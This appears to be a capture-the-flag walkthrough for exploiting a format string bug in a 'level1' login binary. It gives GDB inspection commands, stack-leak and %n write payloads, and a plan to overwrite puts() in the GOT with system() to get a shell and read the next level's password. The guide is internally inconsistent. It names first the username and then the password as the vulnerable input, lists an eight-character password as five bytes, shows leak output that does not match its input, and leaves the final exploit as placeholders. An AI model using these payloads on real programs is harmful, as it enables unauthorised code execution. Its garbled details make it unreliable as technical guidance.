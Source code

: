 # Level1 Format String Exploit Guide

## Vulnerability Analysis

### The Bug
```assembly
0x0804850b <+59>:	call   0x8048360 <printf@plt>   # printf(username_buffer)
```
- `printf()` called with user input directly
- No format string specified
- User input interpreted as format string

### Memory Layout
- Username buffer: `0x804a040` (global)
- Password buffer: `%esp + 0x1c` (local stack)
- Expected username: `0x80486a8` (7 bytes)
- Expected password: `0x80486b0` (5 bytes)

## Step 1: Extract Hardcoded Strings

### Using GDB
```bash
gdb ./level1
(gdb) x/s 0x80486a8
# Expected username: "dat_wil"

(gdb) x/s 0x80486b0  
# Expected password: "P@ssw0rd"
```

## Step 2: Format String Payload Development

### Basic Format String Test
```bash
./level1
# Username: %x%x%x%x
# Password: anything
```

### Memory Leak Payload
```bash
# Username: %08x.%08x.%08x.%08x
# This will leak 4 stack values
```

### Finding Our Input on Stack
```bash
# Username: AAAA.%08x.%08x.%08x.%08x.%08x.%08x
# Look for 0x41414141 (AAAA) in output
```

## Step 3: GOT Overwrite Strategy

### Target: system() GOT Entry
```bash
# Find system() GOT address
(gdb) info functions system
# Or: (gdb) x/1x 0x8048380

# Find puts() GOT address (easier to overwrite)
(gdb) info functions puts
```

### Overwrite Strategy
1. **Find puts() GOT address**
2. **Overwrite puts() GOT with system() address**
3. **Trigger puts() with "/bin/sh" string**

## Step 4: Exploit Development

### Step 4.1: Find Stack Offset
```bash
# Username: AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
# Count how many %x until you see 0x41414141
```

### Step 4.2: Direct Parameter Access
```bash
# Username: %7$x
# This directly accesses the 7th parameter
```

### Step 4.3: Write to Memory
```bash
# Username: %7$n
# This writes the number of characters printed to the 7th parameter
```

## Step 5: Complete Exploit

### Method 1: GOT Overwrite
```bash
# 1. Find puts() GOT address
# 2. Overwrite with system() address
# 3. Trigger puts("/bin/sh")

# Username: <puts_got_addr>%7$n
# Password: /bin/sh
```

### Method 2: Return Address Overwrite
```bash
# 1. Find return address on stack
# 2. Overwrite with shellcode address
# 3. Execute shellcode
```

## Step 6: Shellcode Alternative

### Using system() Call
```bash
# Instead of shellcode, use existing system() function
# Overwrite GOT entry to point to system()
# Then trigger with "/bin/sh" string
```

## Testing the Exploit

### Step 1: Basic Test
```bash
./level1
# Username: dat_wil
# Password: %x%x%x%x
```

### Step 2: Memory Leak
```bash
./level1
# Username: dat_wil
# Password: %08x.%08x.%08x.%08x.%08x.%08x
```

### Step 3: Find Stack Position
```bash
./level1
# Username: dat_wil
# Password: AAAA.%08x.%08x.%08x.%08x.%08x.%08x
# Look for 0x41414141 in output
```

## Expected Results

### Memory Leak Output
```
********* ADMIN LOGIN PROMPT *********
Enter Username:dat_wil
verifying username....

Enter Password: %08x.%08x.%08x.%08x
080485a3.00000000.080485a3.00000000.080485a3.00000000
```

### Exploit Success
```
********* ADMIN LOGIN PROMPT *********
Enter Username:dat_wil
verifying username....

Enter Password: <exploit_payload>
$ cat /home/users/level02/.pass
<level02_password>
```

## Key Points

1. **Username must be correct**: "dat_wil"
2. **Password field is vulnerable**: Format string in password input
3. **Stack layout matters**: Need to find correct offset
4. **GOT overwrite**: More reliable than shellcode
5. **system() function**: Already available in program

## Next Steps

1. Extract hardcoded strings
2. Find stack offset for password buffer
3. Develop format string payload
4. Overwrite GOT or return address
5. Gain shell access
6. Read level02 password 